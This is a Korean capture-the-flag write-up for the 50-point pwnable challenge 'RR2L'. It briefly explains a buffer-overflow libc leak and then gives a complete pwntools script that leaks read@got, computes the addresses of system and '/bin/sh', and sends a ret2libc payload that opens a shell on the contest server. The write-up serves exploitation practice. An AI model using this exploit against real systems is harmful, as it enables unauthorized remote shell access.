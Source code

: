 ## No.4 Pwnable RR2L[50]

**점수:** 50

**분야:** Pwnable

**제목:** RR2L

**Description:**

> Get a shell. The flag is located in the directory where the problem is located. The name of the file with flag is flag.
> 
> nc 223.194.105.182 37100
> Download : https://goo.gl/HdNBu4

BOF를 이용해 먼저 read 함수의 주소를 leak 시킨다.

마침 사용중인 libc가 대회 서버와 동일한 버전이어서 간단하게 system 함수와 ‘/bin/sh’의 주소를 찾을 수 있었다.

```python
from pwn import *
 
r = remote('223.194.105.182', 37100)
 
print r.recvline()
 
payload = 'A' * 104
payload += p32(0x8048410) # write@plt
payload += p32(0x804852b)
payload += p32(1)
payload += p32(0x804A00C) # read@got
payload += p32(4)
 
r.sendline(payload)
r.recv(1024)
read_got = u32(r.recvn(4))
libc_base = read_got - 0xd5980
system = libc_base + 0x3ada0
binsh = libc_base + 0x15B82B
log.info('libc is at {}'.format(hex(libc_base)))
 
payload = 'A' * 104
payload += p32(system)
payload += p32(0xdeadbeef)
payload += p32(binsh)
 
r.sendline(payload)
r.interactive()
```

